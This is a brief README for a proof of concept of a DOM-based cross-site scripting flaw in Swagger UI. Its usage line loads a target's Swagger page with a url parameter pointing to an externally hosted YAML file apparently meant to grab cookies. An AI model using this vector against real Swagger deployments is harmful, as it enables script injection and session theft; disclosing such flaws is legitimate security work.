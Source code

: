this is PoC for swagger DOM Xss :)
and some other tests !!!!

# usage
https://test.com/swagger_path/index.html?url=https://alharbe0.github.io/test_cookies.yaml
